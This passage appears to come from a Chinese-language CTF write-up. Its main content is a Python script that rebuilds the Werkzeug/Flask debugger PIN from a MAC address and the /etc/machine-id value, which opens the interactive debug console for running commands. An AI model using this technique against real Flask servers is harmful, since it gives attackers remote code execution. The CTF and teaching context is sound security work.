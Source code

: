 使用网上搜的师傅的脚本

```
import hashlib
from itertools import chain

probably_public_bits = [
    'flaskweb'  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.7/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '108323369185043',  # str(uuid.getnode()),  /sys/class/net/ens33/address
    '1408f836b0ca514d796cbf8960e45fa1'  # get_machine_id(), /etc/machine-id
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)

```

得到PIN码

![image-20240528220342070](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202405282203138.png)

点击命令运行框
